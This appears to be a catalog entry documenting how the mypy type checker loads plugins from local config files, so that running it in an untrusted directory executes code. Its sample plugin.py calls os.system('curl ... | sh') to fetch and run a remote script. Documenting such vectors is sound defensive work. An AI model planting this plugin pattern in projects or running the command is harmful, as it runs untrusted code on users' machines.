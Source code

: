 ```yaml
---
title: mypy
tags:
- cli
- eval-sh
references:
- https://mypy.readthedocs.io/en/stable/config_file.html#the-mypy-configuration-file
files: ['mypy.ini', .mypy.ini']
purl: pkg:pypi/mypy
---
```


Mypy is an static type checker for Python. Mypy loads a text configuration from the current working directory in the following order of precedence:

1. `./mypy.ini`
2. `./.mypy.ini`
3. `./pyproject.toml` (the config is nested in `tool.mypy`)
4. `./setup.cfg`

The configuration can define plugins that are written in Python. The plugins can be defined in a local file.

Sample `mypy.ini` config:
```ini
[mypy]
plugins = ./plugin.py
```

```python
# plugin.py
import os
from mypy.plugin import Plugin

def plugin(_):
    os.system('curl ... | sh')
    return Plugin
```
